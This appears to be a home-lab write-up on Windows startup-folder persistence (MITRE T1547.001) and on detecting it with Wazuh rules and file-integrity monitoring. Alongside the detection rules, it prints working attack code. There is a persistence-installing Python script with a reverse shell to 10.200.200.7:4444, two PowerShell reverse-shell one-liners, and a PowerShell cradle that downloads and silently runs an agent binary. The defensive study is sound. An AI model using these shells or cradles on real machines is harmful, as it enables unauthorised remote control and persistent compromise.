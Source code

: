 ```yaml
---
{"dg-publish":true,"permalink":"/mitreattck-analysis/persistence-t1547-001/persistence-t1547-001/","tags":["mitre"]}
---
```


[[MITREATTCKAnalysis/Threat Analysis with ATT&CK\|Threat Analysis with ATT&CK]]
### Summary
---
### Initials
---
- **Atomic Red Team ID**: T1547.001 - Persistence
- **Description**: Using various techniques to maintain access across system restarts, change credentials or any other interruptions, in this experiment a malware that adds a `.bat` file on the public User's startup folder that creates a reverse shell.
- **Challenges Encountered & Solution*:
	- It requires running the script with administrative privilege.
## Analysis
---
File is added in user's public startup directory, one of the symptoms of a persistence, there are many ways to establish persistence one of the ways is modifying the registry or adding files in the task scheduler:

![Pasted image 20240811215835.png](/img/user/images/Pasted%20image%2020240811215835.png)

However the reverse shell or network connection but the command such as `whoami` is detected as well as:

![Pasted image 20240811215850.png](/img/user/images/Pasted%20image%2020240811215850.png)

### WAZUH. rule creation
---
In a normal environment, our clients usually connect to _well-known ports_ such as port 21, 80, 443 but rarely on something like 4444 which is the default port used in metasploit for reverse shells.

We can create blacklist or whitelist depending on the fields extracted in the decoding phase by using Wazuh's Constant Database (CDB).

1. Create a file name `/var/ossec/etc/lists/common-ports` at the manager.
2. Then input the most well-known ports (this should be tailored around the environment for example if organization never uses ssh then remove port 21 from the list) follow the format

```
22:
80:
```

3. Change the permission so Wazuh can detect this file:

```bash
chown wazuh:wazuh common-ports
chmod 660 common-ports
```

4. Navigate and open a text editor to `/var/ossec/etc/ossec.conf` and find the `<ruleset>` section and add the following:

```XML
<list>etc/lists/common-ports</list>
```

Should go something like this:

![Pasted image 20240811215904.png](/img/user/images/Pasted%20image%2020240811215904.png)
7. Add the rules to detect the attack:

```XML
<!-- Abnormal Destination Port Detected -->  
<rule id="102503" level="10">  
  <if_group>sysmon_event3</if_group>  
  <list field="win.eventdata.destinationPort" lookup="not_address_match_key">etc/lists/common-ports</list>  
  <description>Sysmon - Event 3: Network connection to Uncommon Port by $(win.eventdata.image)</description>  
  <group>sysmon_event3,</group>  
</rule>
```

Should look something like this:

![Pasted image 20240811215909.png](/img/user/images/Pasted%20image%2020240811215909.png)
## Incident Response
---
- **Incident identification criteria** - file added to startup folder for either the public or users directory.
- **Investigation steps** - strange process and cmd window popup at start up
- **Containment actions** - disconnect the compromised host
- **Eradication procedures** - remove the file from the startup folder and it's parent image.
- **Recovery steps** - Implemented File Integrity Monitoring with Wazuh to detect changes at start up folders.

```C
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Run file as administrator:

```C
@echo off

:: Check if the script is running as admin

net session >nul 2>&1

if %errorLevel% neq 0 (

    echo Requesting elevation...

    powershell.exe Start-Process "%~0" -Verb RunAs

    exit /b

)

:: Run the Python script

python "C:\Users\lauraArseid\Documents\evil.py"
```

The Malware:

```python
import sys
import os.path
import os,socket,subprocess,threading;


# Get the python path:
python_path = sys.executable

# Get the current directory of where this python executing
current_file_path = path = os.path.abspath(os.path.dirname(__file__))
current_file_path_name = path = os.path.abspath(__file__)

path = 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat'

check_file = os.path.isfile(path)

# Revere shgell
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

if not check_file:
    # Write a .bat script to execute on user login
    with open("C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat", "a") as bad_bat:
        bad_bat.write("@echo off\n")
        bad_bat.write(f'python "{current_file_path_name}"')
else:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.200.200.7",4444))

    p=subprocess.Popen(["sh"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

    s2p_thread = threading.Thread(target=s2p, args=[s, p])
    s2p_thread.daemon = True
    s2p_thread.start()

    p2s_thread = threading.Thread(target=p2s, args=[s, p])
    p2s_thread.daemon = True
    p2s_thread.start()

    try:
        p.wait()
    except KeyboardInterrupt:
        s.close()
```

The reverse shell used:

```
$LHOST = "10.200.200.7"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.200.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


```Powershell
$server="http://10.200.200.7:8000";  
$url="$server/test.txt";  
$wc=New-Object System.Net.WebClient;  
$wc.Headers.add("platform","windows");  
$wc.Headers.add("file","sandcat.go");  
$data=$wc.DownloadData($url);  
$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");  
get-process | ? {$_.modules.filename -like "C:\Users\Public\$name.exe"} | stop-process -f;  
rm -force "C:\Users\Public\$name.exe" -ea ignore;  
[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data) | Out-Null;  
Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```


```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
    <!-- Rules for Windows systems -->
    <rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
  <rule id="100200" level="7">
    <if_sid>550</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File modified in user startup directory.</description>
  </rule>
  <rule id="100201" level="7">
    <if_sid>554</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File added to user startup directory.</description>
  </rule>
  
<rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

![Pasted image 20240811215918.png](/img/user/images/Pasted%20image%2020240811215918.png)
